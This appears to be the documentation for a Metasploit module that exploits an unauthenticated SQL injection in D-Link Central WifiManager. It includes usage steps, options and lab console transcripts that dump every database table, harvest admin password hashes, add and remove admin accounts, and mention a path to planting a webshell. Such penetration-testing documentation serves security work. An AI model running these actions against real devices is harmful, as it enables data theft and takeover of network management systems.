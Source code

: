 ## Vulnerable Application

This module exploits a vulnerability in Dlink Central
WifiManager (CWM-100), found in versions lower than
v1.03R0100_BETA6, allowing unauthenticated users to
execute arbitary SQL queries.

This module has 3 actions:

| Action        | Description                |
| ------------- | -------------------------- |
| SQLI_DUMP     | Data retrieval*            |
| ADD_ADMIN     | Creation of an admin user  |
| REMOVE_ADMIN  | Removal of an admin user   |

\* : each table is saved in the loot directory in CSV format, credentials (password hashes) are saved as
creds for future cracking.

Has been tested with 1.03r098.

## Verification Steps

1. Download the vulnerable software, and install it
- Run the vulnerable software, downloadable from
  [here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117).
- direct download link:
  `ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip
2. Reproduction steps
- Run `msfconsole`
- set rhosts ...
- set action ...
- `check` or `exploit`
- should work as in the scenarios below

## Actions

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show actions

Auxiliary actions:

   Name         Description
   ----         -----------
   ADD_ADMIN    Add an administrator user
   REMOVE_ADMIN Remove a user
   SQLI_DUMP    Retrieve all the data from the database

```

## Options

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show options

Module options (auxiliary/sqli/dlink/dlink_central_wifimanager_sqli):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   Admin_Password  anything         no        The password of the user to add/edit
   Admin_Username  red0xff          no        The username of the user to add/remove
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.223    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           443              yes       The target port (TCP)
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                yes       The base path to DLink CWM-100
   VHOST                            no        HTTP server virtual host

```

## Scenarios

This module has both `check` and `run` functions.

### Retrieving all the data from the database

```
msf5 > use auxiliary/sqli/dlink/dlink_central_wifimanager_sqli 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action SQLI_DUMP 
action => SQLI_DUMP
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set rhosts 192.168.1.223
rhosts => 192.168.1.223
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > check 

[+] 192.168.1.223:443 - The target is vulnerable.
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[+] DBMS version: PostgreSQL 9.1.0, compiled by Visual C++ build 1500, 32-bit
[*] Enumerating tables
[+] grouptossltable saved to /home/redouane/.msf4/loot/20200828180148_default_192.168.1.223_dlink.http_187571.csv
[+] paypalsettingtable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_642251.csv
[+] ordertable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_944954.csv

...

[+] tempstationtable saved to /home/redouane/.msf4/loot/20200828180505_default_192.168.1.223_dlink.http_577215.csv
[+] Saved credentials for admin
[+] Saved credentials for red0xff
[+] usertable saved to /home/redouane/.msf4/loot/20200828180153_default_192.168.1.223_dlink.http_608945.csv

...

[+] devicesnmpsecuritytable saved to /home/redouane/.msf4/loot/20200828180154_default_192.168.1.223_dlink.http_825556.csv
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > creds
Credentials
===========

host  origin         service  public   private                           realm  private_type        JtR Format
----  ------         -------  ------   -------                           -----  ------------        ----------
      192.168.1.223           admin    21232f297a57a5a743894a0e4a801fc3         Nonreplayable hash  raw-md5
      192.168.1.223           red0xff  f0e166dc34d14d6c228ffac576c9a43c         Nonreplayable hash  raw-md5

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > loot

Loot
====

host           service  type        name                         content          info  path
----           -------  ----        ----                         -------          ----  ----
192.168.1.223           dlink.http  biggrouptable.csv            application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_360290.csv
192.168.1.223           dlink.http  devicetable.csv              application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_230830.csv

...

ult_192.168.1.223_dlink.http_878195.csv
192.168.1.223           dlink.http  devicesnmpsecuritytable.csv  application/csv        /home/redouane/.msf4/loot/20200828180506_default_192.168.1.223_dlink.http_086271.csv

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Adding an admin user/changing the password of a user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action ADD_ADMIN 
action => ADD_ADMIN
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username msfadmin
Admin_Username => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfadmin
Admin_Password => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] User not found on the target, inserting
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfpassword
Admin_Password => msfpassword
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[*] Trying to detect installed version
[+] Target seems vulnerable
[*] User already exists, updating the password
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Deleting an administrator user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action REMOVE_ADMIN 
action => REMOVE_USER
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username red0xff
Admin_Username => red0xff
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] Auxiliary module execution completed
```

### Going further

It is possible to upload arbitary files to the target system using queries of the form
(copy ... to ...), but using full paths, the attacker must know the path of the webroot
to upload a webshell this way.
